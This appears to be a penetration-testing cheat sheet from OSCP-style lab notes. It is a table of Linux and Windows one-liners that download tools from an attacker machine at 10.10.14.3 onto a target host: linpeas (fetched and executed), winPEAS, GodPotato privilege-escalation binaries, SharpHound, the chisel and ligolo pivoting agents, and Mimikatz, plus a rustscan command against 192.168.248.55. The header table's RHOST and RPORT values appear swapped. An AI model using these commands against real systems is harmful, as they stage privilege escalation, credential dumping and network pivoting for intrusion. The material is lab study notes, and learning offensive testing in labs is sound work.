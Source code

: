 | RPORT          | RHOST            | LPORT | LHOST       |
|----------------|------------------|-------|-------------|
| 192.168.248.55| 80               | 80    | 10.10.14.3  |


| Function       | Variation | Linux Command                                                                  | Windows Command                                                                                     |
|----------------|-----------|--------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------|
| File Download  | HTTP      | `wget http://10.10.14.3:80`                                                   | `iwr -uri http://10.10.14.3:80/ -OutFile C:\windows\temp`                                              |
|                | SSH       | `scp kali@10.10.14.3:/home/kali/oscp/linux_tools ./`                          |                                                                                                      |
| Peas Download  | HTTP      | `wget http://10.10.14.3:80/linux_tools/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh` | `iwr -uri http://10.10.14.3:80/Windows_Tools/winPEASx64.exe -OutFile peas.exe`                        |
| Rust Scan      |           | `rustscan -a 192.168.248.55 -- -A -Pn -oA /out/1`                               |                                                                                                      |
| GODPOTATO      | NET 4     |                                                                                | `iwr -uri http://10.10.14.3:80/Windows_Tools/GodPotato/GodPotato-NET4.exe -OutFile g4.exe`          |
|                | NET 3.5   |                                                                                | `iwr -uri http://10.10.14.3:80/Windows_Tools/GodPotato/GodPotato-NET35.exe -OutFile g35.exe`        |
|                | NET 2     |                                                                                | `iwr -uri http://10.10.14.3:80/Windows_Tools/GodPotato/GodPotato-NET2.exe -OutFile g2.exe`          |
| SharpHound     |           |                                                                                | `iwr -uri http://10.10.14.3:80/Windows_Tools/SharpHound.ps1 -OutFile sharp.ps1`                       |
| Pivoting       |           | `wget http://10.10.14.3:80/linux_tools/lig_lin_agent -O agent`                 | `iwr -uri http://10.10.14.3:80/Windows_Tools/agent.exe -OutFile agent.exe`                             |
|                |           | `wget http://10.10.14.3:80/linux_tools/chisel -O chisel`                       | `iwr -uri http://10.10.14.3:80/Windows_Tools/chisel.exe -OutFile chisel.exe`                           |
| Mimikatz       |           |                                                                                | `iwr -uri http://10.10.14.3:80/Windows_Tools/mimikatz.exe -OutFile mimi.exe`                           |
